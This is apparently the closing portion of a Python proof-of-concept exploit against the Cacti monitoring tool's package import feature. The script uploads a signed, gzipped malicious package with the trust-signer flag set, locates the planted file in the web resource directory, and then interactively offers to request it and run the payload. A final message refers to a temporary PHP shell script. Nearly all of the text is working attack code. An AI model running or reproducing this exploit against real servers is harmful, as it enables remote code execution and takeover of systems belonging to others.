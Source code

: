 ```python
final_data = data.replace("<signature></signature>", f"<signature>{base64.b64encode(signature).decode('utf-8')}</signature>")
final_data = final_data.encode('utf-8')

gz_filename = f'{dest_filename}.gz'
with open(gz_filename, 'wb') as poc:
    poc.write(gzip.compress(final_data))

print('[SUCCESS]')
print('GZIP path is', os.path.join(os.getcwd(), gz_filename))
logging.info("GZIP file created at %s", gz_filename)

print('[*] Sending payload...')

import_post1 = '/package_import.php?package_location=0&preview_only=on&remove_orphans=on&replace_svalues=on'
files = {'import_file': open(gz_filename, 'rb')}
data = {
    '__csrf_magic': csrf,
    'trust_signer': 'on',
    'save_component_import': 1,
    'action': 'save'
}

r = s.post(URL + import_post1, data=data, files=files)
logging.info("Upload response: %s", r.text)

import_post2 = '/package_import.php?header=false'
soup = BeautifulSoup(r.text, 'html.parser')
html_parser = soup.find('input', {'title': f'/var/www/html/cacti/resource/{dest_filename}'})
file_id = html_parser.get('id')

data = {
    '__csrf_magic': csrf,
    'trust_signer': 'on',
    'data_source_profile': 1,
    'remove_orphans': 'on',
    'replace_svalues': 'on',
    file_id: 'on',
    'save_component_import': 1,
    'preview_only': '',
    'action': 'save',
}

r = s.post(URL + import_post2, data=data)
print('[SUCCESS]')
logging.info("Payload confirmed with response: %s", r.text)

file_path = f'/resource/{dest_filename}'
print('You will find the payload in', URL + file_path)

option = input('Do you wanna start the payload ?[Y/n]')

if option.lower() == 'y':
    print('Payload is running...')
    r = s.get(URL + file_path)
    logging.info("Payload executed with response: %s", r.text)
else:
    print('Payload execution skipped.')
    logging.info("Payload execution skipped by user.")

os.remove(temp_php_file)
print(f"[INFO] Temporary PHP shell script {temp_php_file} removed.")
```